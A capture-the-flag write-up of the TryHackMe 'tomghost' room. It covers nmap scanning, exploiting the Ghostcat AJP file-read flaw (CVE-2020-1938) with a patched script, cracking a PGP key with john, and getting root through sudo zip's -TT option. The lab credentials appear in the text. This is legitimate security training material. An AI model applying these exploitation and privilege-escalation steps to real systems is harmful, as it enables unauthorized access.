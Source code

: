 # tomghost

[tomghost](https://tryhackme.com/room/tomghost)

## Solution

### Initial Enumeration

Usually I begin by running an nmap scan on the ip address of the box.

```console
nmap $IP
```

This will output the open ports. We obtain

```
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

Now we can try to run some basic scripts and to get the versions of these processes by using

```console
nmap -sS -sV -sC -p22,53,8009,8080 $IP
```

This might require sudo to run (because of `-sS`).

### Apache Tomcat

We can see that the server uses `Apache Tomcat 9.0.30` which is vulnerable to
https://nvd.nist.gov/vuln/detail/CVE-2020-1938. The server also uses `Apache
Jserv (Protocol v1.3)` which is a part of the exploit.

We can use
https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md
to exploit the vulnerability.

However, this script doesn't work and I had to patch it

```console
261c261
< 		self.stream = self.socket.makefile("rb", bufsize=0)
---
> 		self.stream = self.socket.makefile("rb")
301c301
< print("".join([d.data for d in data]))
---
> print(b"".join([d.data for d in data]))
```

(You can copy paste this into `patchfile.patch` and then run `patch
CVE-2020-1938.py patchfile.patch` or get the script from my
[github](https://raw.githubusercontent.com/alexjercan/learning-cybersecurity/master/thm/tomghost/CVE-2020-1938.py)).

Next you can run

```console
python CVE-2020-1938.py $IP -p 8009 -f WEB-INF/web.xml
```

This will output the config of the server and here we can see a username and a
password `skyfuck:8730281lkjlkjdqlksalks`. So we can try to ssh into the machine.

### SkyF**k

Since we have the password for this user we can try to see if we have sudo
privilege using `sudo -l`, but we do not have any access to sudo.

If we look in `/home` we can see that there is another user called `merlin`.

In our own home directory we have two files `credential.pgp` and
`tryhackme.asc`. We can use `scp` or any other method to download them locally
`scp skyfuck@$IP:credential.pgp .`.

We can inspect the two files.

- `credential.pgp`: PGP Elgamal encrypted session key - keyid: 61E104A6 6184FBCC Elgamal Encrypt-Only 1024b.
- `tryhackme.asc`: PGP private key block

We can try to use `john` to crack the `tryhackme.asc` key. (https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john tryhackme.asc > tryhackme.txt
john tryhackme.txt
```

And we get the key `alexandru`.

Next we can unlock the PGP file. (when you import the file make sure to enter the password in the popup window).

```console
gpg --import tryhackme.asc
gpg -d credential.pgp
```

This gives us the other user credentials `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`.

Next we can ssh into this user and `cat user.txt` to ge the flag.

### Merlin

Again we can try to see what havoc we can cause with `sudo -l`.

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

This means we can run zip as root.

```console
sudo zip user.zip user.txt -T -TT "sh #"
```

The important part of this command is to use -TT which executes a command to
test if the archive is ok. (man zip) (https://gtfobins.github.io/gtfobins/zip/#sudo)

Next we can show the root flag from `/root/root.txt`
